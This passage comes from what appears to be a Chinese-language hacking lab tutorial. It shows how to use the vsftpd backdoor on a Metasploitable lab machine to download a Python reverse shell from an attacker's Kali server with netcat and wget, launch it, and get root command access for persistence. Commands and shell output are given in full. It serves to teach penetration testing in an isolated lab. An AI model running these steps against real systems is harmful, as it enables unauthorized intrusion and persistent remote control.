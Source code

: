 现在您已经用 Python 开发了反向 Shell 和黑客服务器，将 Python 反向 Shell 加载到 Metasploitable 服务器上。我们将使用您编写的反向 Shell 来保持访问权限，即使 vsftp 中的漏洞已被修补。由于攻击者没有服务器的用户名或密码，因此无法登录到服务器，您必须使用 vsftp 后门提供的 Shell 从 Kali Linux 机器将您的反向 Shell 上传到 Metasploitable 服务器。

导航到 Kali Linux 机器上包含*reverseShell.py*和*shellServer.py*文件的目录：

```
kali@kali:~$ cd ~/Desktop/shell
```

接下来，启动一个本地服务器，将*reverseShell.py*文件提供给 Metasploitable 服务器：

```
kali@kali:~/Desktop/shell$ python3 -m http.server 8080
```

`-m`表示运行的模块。在这里，您正在运行`http.server`模块，它允许您启动一个 Web 服务器。

打开一个终端窗口，并连接到端口 6200 上的 vsftp 后门 Shell，如下代码所示。使用该 Shell 在 Metasploitable 服务器上创建一个新目录，并从黑客的服务器下载*reverseShell.py*文件到该目录中。为此，使用以下命令：

```
kali@kali:~$ nc 192.168.1.101 6200
mkdir shell
cd shell
wget <Kali IP>:8080/reverseShell.py

--13:38:01--  http://192.168.1.103:8080/reverseShell.py

            => `reverseShell.py'
Connecting to 192.168.1.103:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 864 [text/plain]

     0K                                                       100%  161.63 MB/s

13:38:01 (161.63 MB/s) - `reverseShell.py' saved [864/864]
```

通过在当前 Netcat 会话中输入以下命令，启动 Metasploitable 机器上的反向 Shell：

```
python reverseShell.py <Kali IP address> &
```

您的反向 Shell 现在将尝试连接到您的服务器。切换到 Kali Linux 机器并尝试执行`whoami`命令：

```
kali@kali:python3 ~/Desktop/shell/shellServer.py
Attacker box listening and awaiting instructions
Thanks for connecting to me ('192.168.1.101', 50602)
Bot reporting for duty
Please enter a command: whoami
root

Please enter a command: pwd

/shell

Please enter a command: ls
reverseShell.py

Please enter a command:
```
